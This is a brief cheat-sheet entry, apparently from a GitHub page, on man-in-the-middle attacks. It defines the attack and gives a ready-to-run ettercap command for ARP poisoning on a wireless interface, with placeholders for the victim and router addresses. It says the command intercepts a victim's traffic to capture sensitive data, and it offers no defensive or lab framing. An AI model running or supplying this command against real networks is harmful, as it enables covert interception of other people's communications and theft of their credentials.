 # Man-in-the-Middle Attack

A MITM attack involves intercepting and potentially altering communication between a device and the network.

## Commands

#### 1) Launch an ARP poisoning MITM attack

    ettercap -T -q -i wlan0mon -M arp:remote VICTIM_IP ROUTER_IP

You intercept traffic between a victim’s device and the router, capturing sensitive data.
